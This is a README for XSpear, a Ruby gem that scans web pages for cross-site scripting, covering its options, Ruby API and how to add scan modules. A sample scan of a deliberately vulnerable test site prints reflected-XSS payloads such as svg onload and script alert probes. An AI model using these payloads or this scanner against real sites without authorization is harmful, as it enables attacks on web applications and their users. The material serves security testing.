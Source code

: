 # XSpear
XSpear is XSS Scanner on ruby gems

## Installation

Add this line to your application's Gemfile:

```ruby
gem 'XSpear'
```

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install XSpear

Or install it yourself as (local file):

    $ gem install XSpear-0.1.0.gem


## Usage

```
Usage: xspear -u [target] -[options] [value]
[ e.g ]
$ xspear -u 'https://www.hahwul.com/?q=123' --cookie='role=admin'

[ Options ]
    -u, --url=target_URL             [required] Target Url
    -d, --data=POST Body             [optional] POST Method Body data
        --headers=HEADERS            [optional] Add HTTP Headers
        --cookie=COOKIE              [optional] Add Cookie
    -l, --level=1~3                  [optional] Custom scan level
                                      + Default value: 3
                                      + Level3
                                      + Level2
                                      + Level1: 
    -t, --threads=NUMBER             [optional] thread , default: 10
    -o, --output=FILENAME            [optional] Save JSON Result
    -v, --verbose=1~3                [optional] Show log depth
                                      + Default value: 2
                                      + v=1 : quite mode
                                      + v=2 : show scanning log
                                      + v=3 : show detail log(req/res)
    -h, --help                       Prints this help
        --update                     Update with online

```

```
$ xspear -u "http://testphp.vulnweb.com/search.php?test=query" -d "searchFor=yy"
[*] creating a test query.
[*] test query generation is complete. [50 query]
[*] starting test and analysis. [10 threads]
[-] [00:37:28] not reflected XsPeaR>
[-] [00:37:28] not reflected <XsPeaR
[I] [00:37:28] reflected <XsPeaR[param: searchFor][not filtered <]
[-] [00:37:28] not reflected XsPeaR'
[I] [00:37:28] reflected XsPeaR>[param: searchFor][not filtered >]
[I] [00:37:28] reflected rEfe6[param: searchFor][reflected parameter]
[-] [00:37:28] not reflected rEfe6
[-] [00:37:28] not reflected XsPeaR"
[I] [00:37:28] reflected XsPeaR"[param: searchFor][not filtered "]
[I] [00:37:28] reflected XsPeaR'[param: searchFor][not filtered ']
[I] [00:37:29] reflected XsPeaR|[param: searchFor][not filtered |]
[-] [00:37:29] not reflected XsPeaR|
[-] [00:37:29] not reflected XsPeaR)
[-] [00:37:29] not reflected XsPeaR;
[I] [00:37:29] reflected XsPeaR;[param: searchFor][not filtered ;]
[I] [00:37:29] reflected XsPeaR([param: searchFor][not filtered (]
[I] [00:37:29] reflected XsPeaR)[param: searchFor][not filtered )]
[-] [00:37:29] not reflected XsPeaR(
[I] [00:37:29] reflected XsPeaR`[param: searchFor][not filtered `]
[-] [00:37:29] not reflected XsPeaR`
[-] [00:37:30] not reflected XsPeaR:
[I] [00:37:30] reflected XsPeaR[[param: searchFor][not filtered []
[I] [00:37:30] reflected XsPeaR{[param: searchFor][not filtered {]
[I] [00:37:30] reflected XsPeaR}[param: searchFor][not filtered }]
[I] [00:37:30] reflected XsPeaR][param: searchFor][not filtered ]]
[-] [00:37:30] not reflected XsPeaR{
[I] [00:37:30] reflected XsPeaR:[param: searchFor][not filtered :]
[-] [00:37:30] not reflected XsPeaR]
[-] [00:37:30] not reflected XsPeaR}
[-] [00:37:30] not reflected XsPeaR[
[I] [00:37:30] reflected XsPeaR.[param: searchFor][not filtered .]
[-] [00:37:30] not reflected XsPeaR=
[-] [00:37:30] not reflected XsPeaR,
[I] [00:37:30] reflected XsPeaR,[param: searchFor][not filtered ,]
[-] [00:37:30] not reflected XsPeaR-
[I] [00:37:30] reflected XsPeaR-[param: searchFor][not filtered -]
[-] [00:37:30] not reflected XsPeaR+
[I] [00:37:30] reflected XsPeaR=[param: searchFor][not filtered =]
[I] [00:37:30] reflected XsPeaR+[param: searchFor][not filtered +]
[-] [00:37:30] not reflected XsPeaR.
[-] [00:37:31] not reflected <svg/onload=alert(45)>
[H] [00:37:31] reflected <svg/onload=alert(45)>[param: searchFor][reflected XSS Code]
[I] [00:37:31] reflected XsPeaR$[param: searchFor][not filtered $]
[H] [00:37:31] reflected <script>alert(45)</script>[param: searchFor][reflected XSS Code]
[-] [00:37:31] not reflected <script>alert(45)</script>
[H] [00:37:31] reflected <img/src onerror=alert(45)>[param: searchFor][reflected XSS Code]
[-] [00:37:31] not reflected <img/src onerror=alert(45)>
[-] [00:37:31] not reflected XsPeaR$
[*] finish scan. the report is being generated..
+----+------+-------------+------------------------------------------------------------+---------------------+
|                                               XSpear report                                                |
|                              http://testphp.vulnweb.com/search.php?test=query                              |
+----+------+-------------+------------------------------------------------------------+---------------------+
| NO | TYPE | ISSUE       | PAYLOAD                                                    | DESCRIPTION         |
+----+------+-------------+------------------------------------------------------------+---------------------+
| 0  | INFO | FILERD RULE | searchFor=yy%3CXsPeaR                                      | not filtered <      |
| 1  | INFO | FILERD RULE | searchFor=yyXsPeaR%3E                                      | not filtered >      |
| 2  | INFO | REFLECTED   | searchFor=yyrEfe6                                          | reflected parameter |
| 3  | INFO | FILERD RULE | searchFor=yyXsPeaR%22                                      | not filtered "      |
| 4  | INFO | FILERD RULE | searchFor=yyXsPeaR%27                                      | not filtered '      |
| 5  | INFO | FILERD RULE | searchFor=yyXsPeaR%7C                                      | not filtered |      |
| 6  | INFO | FILERD RULE | searchFor=yyXsPeaR%3B                                      | not filtered ;      |
| 7  | INFO | FILERD RULE | searchFor=yyXsPeaR%28                                      | not filtered (      |
| 8  | INFO | FILERD RULE | searchFor=yyXsPeaR%29                                      | not filtered )      |
| 9  | INFO | FILERD RULE | searchFor=yyXsPeaR%60                                      | not filtered `      |
| 10 | INFO | FILERD RULE | searchFor=yyXsPeaR%5B                                      | not filtered [      |
| 11 | INFO | FILERD RULE | searchFor=yyXsPeaR%7B                                      | not filtered {      |
| 12 | INFO | FILERD RULE | searchFor=yyXsPeaR%7D                                      | not filtered }      |
| 13 | INFO | FILERD RULE | searchFor=yyXsPeaR%5D                                      | not filtered ]      |
| 14 | INFO | FILERD RULE | searchFor=yyXsPeaR%3A                                      | not filtered :      |
| 15 | INFO | FILERD RULE | searchFor=yyXsPeaR.                                        | not filtered .      |
| 16 | INFO | FILERD RULE | searchFor=yyXsPeaR%2C                                      | not filtered ,      |
| 17 | INFO | FILERD RULE | searchFor=yyXsPeaR-                                        | not filtered -      |
| 18 | INFO | FILERD RULE | searchFor=yyXsPeaR%3D                                      | not filtered =      |
| 19 | INFO | FILERD RULE | searchFor=yyXsPeaR%2B                                      | not filtered +      |
| 20 | HIGH | XSS         | searchFor=yy%3Csvg%2Fonload%3Dalert%2845%29%3E             | reflected XSS Code  |
| 21 | INFO | FILERD RULE | searchFor=yyXsPeaR%24                                      | not filtered $      |
| 22 | HIGH | XSS         | searchFor=yy%22%3E%3Cscript%3Ealert%2845%29%3C%2Fscript%3E | reflected XSS Code  |
| 23 | HIGH | XSS         | searchFor=yy%3Cimg%2Fsrc+onerror%3Dalert%2845%29%3E        | reflected XSS Code  |
+----+------+-------------+------------------------------------------------------------+---------------------+

```

## load XSpear Gem on ruby code
```ruby
require 'XSPear'

s = XspearScan.new "https://www.hahwul.com?target_url", "post_body=thisisbodydata", "CustomHeader: wow", 3, 10, "result.json", "3"
# s = XspearScan.new options.url, options.data, options.headers, options.level, options.thread.to_i, options.output, options.verbose
s.run
```

## Add Scanning Module
**1) Add `makeQueryPattern`**
```ruby
makeQueryPattern('type', 'query,', 'pattern', 'category', "description", "callback funcion")
# type: f(ilterd?) r(eflected?) x(ss?)
# category i(nfo) v(uln) l(ow) m(edium) h(igh) 

# e.g 
# makeQueryPattern('f', 'XsPeaR,', 'XsPeaR,', 'i', "not filtered "+",".blue, CallbackStringMatch)
```

**2) if other callback, write callback class override `ScanCallbackFunc`**
e.g
```ruby
  class CallbackStringMatch < ScanCallbackFunc
    def run
      if @response.body.include? @query
        [true, "reflected #{@query}"]
      else
        [false, "not reflected #{@query}"]
      end
    end
  end
```

Parent class(ScanCallbackFunc)
```ruby
class ScanCallbackFunc()
    def initialize(url, method, query, response)
      @url = url
      @method = method
      @query = query
      @response = response
      # self.run
    end
    
    def run
      # override
    end
end
```

## Development

After checking out the repo, run `bin/setup` to install dependencies. Then, run `rake spec` to run the tests. You can also run `bin/console` for an interactive prompt that will allow you to experiment.

To install this gem onto your local machine, run `bundle exec rake install`. To release a new version, update the version number in `version.rb`, and then run `bundle exec rake release`, which will create a git tag for the version, push git commits and tags, and push the `.gem` file to [rubygems.org](https://rubygems.org).

## Contributing

Bug reports and pull requests are welcome on GitHub at https://github.com/[USERNAME]/XSpear. This project is intended to be a safe, welcoming space for collaboration, and contributors are expected to adhere to the [Contributor Covenant](http://contributor-covenant.org) code of conduct.

## License

The gem is available as open source under the terms of the [MIT License](https://opensource.org/licenses/MIT).

## Code of Conduct

Everyone interacting in the XSpear project’s codebases, issue trackers, chat rooms and mailing lists is expected to follow the [code of conduct](https://github.com/[USERNAME]/XSpear/blob/master/CODE_OF_CONDUCT.md).
